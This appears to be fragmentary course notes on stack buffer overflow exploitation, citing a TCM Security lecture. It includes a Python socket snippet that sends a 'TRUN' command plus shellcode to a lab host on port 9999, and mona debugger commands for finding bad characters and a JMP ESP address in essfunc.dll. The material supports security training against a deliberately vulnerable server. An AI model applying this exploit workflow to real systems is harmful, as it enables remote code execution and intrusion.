 > s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
>
> s.connect((\'192.168.4.104\',9999))

 

> payload = b\"TRUN /.:/\" + shellcode

 

> s.send((payload))
>
> s.close()

except:

> print (\"Error connecting to server\")
>
> sys.exit()

 

*From \<<https://academy.tcm-sec.com/courses/1152300/lectures/30165111>\>*

 

 

-   !mona bytearray -cpb \"\\x00\"

Use mona to strip badchars and generate shellcode

 

-   After follow error in dump use error file in mona and ESP

!mona compare -f c:\\mona\\bytearray.bin -a 010AF9C8

Mona will find badchars

 

-   !mona jmp -r ESP -m \"essfunc.dll\" to find jmp without having to search manually

 
